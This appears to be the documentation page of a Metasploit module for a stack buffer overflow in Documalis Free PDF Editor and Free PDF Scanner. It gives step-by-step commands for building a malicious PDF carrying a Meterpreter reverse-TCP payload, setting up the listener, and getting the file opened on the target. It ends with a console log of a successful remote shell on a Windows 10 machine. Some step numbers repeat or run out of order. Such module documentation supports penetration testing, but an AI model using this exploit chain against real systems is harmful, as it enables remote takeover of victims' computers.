 
## Vulnerable Application

  This module exploits a stack-based buffer overflow in Documalis Free PDF Editor v.5.7.2.26  and Documalis Free PDF Scanner v.5.7.2.122. 

## Verification Steps

   1.  Install application on the target machine
   2.  Start msfconsole
   3.  Do: `use [exploit/windows/fileformat/documalis_pdf_editor_and_scanner.rb]`
   4.  Do: `show targets`
   5.  Do: `0 <Documalis Free PDF Editor v.5.7.2.26 / Win 7, Win 10>`
   6.  Do: `1 <Documalis Free PDF Scanner v.5.7.2.122 / Win 7, Win 10>`
   7.  Do: `set target 0 for Documalis Free PDF Editor and set target 1 for Documalis Free PDF Scanner`
   8.  Do: `set payload [windows/meterpreter/reverse_tcp]`
   9.  Do: `set LHOST [IP]`
   9.  Do: `run`
   10. Do: `use [exploit/multi/handler]`
   11. Do: `set payload [windows/meterpreter/reverse_tcp]`
   12. Do: `set LHOST [IP]`
   13. Do: `run`
   14. Copy the generated file to the target machine
   15. Open Documalis Free PDF Editor  
   17. Put PDF file drag and drop
   16. Or select load PDF file
   15. Open Documalis Free PDF Scanner 
   16. Select Add and load PDF file
   You should get a shell.

## Options

  **FILENAME**

  The filename that the shellcode gets written to. Setting a filename is not required, as there is a default name already set.

## Scenarios

### Tested on Win 10 x64 and Windows 7 x64 


  Run Exploit 

  ```
  msf5 > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
  msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show targets
  Exploit targets:

  Id  Name

  0   <Documalis Free PDF Editor v.5.7.2.26 / Win 7, Win 10>
  1   <Documalis Free PDF Scanner v.5.7.2.122 / Win 7, Win 10>

  msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set target 1
  target => 1
  msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set lhost 192.168.199.136
  lhost => 192.168.199.136
  msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit
  [+] msf.pdf stored at C:/Users/exploit/.msf4/local/msf.pdf

  msf5 exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use exploit/multi/handler
  msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
  payload => windows/meterpreter/reverse_tcp
  msf5 exploit(multi/handler) > set lhost 192.168.199.136
  lhost => 192.168.199.136
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.199.136:4444
  [*] Sending stage (180291 bytes) to 192.168.199.1
  [*] Meterpreter session 1 opened (192.168.199.136:4444 -> 192.168.199.1:51316) at 2020-06-15 21:01:20 +020
  meterpreter > sysinfo
  Computer        : DAVID_PC
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : de_DE
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```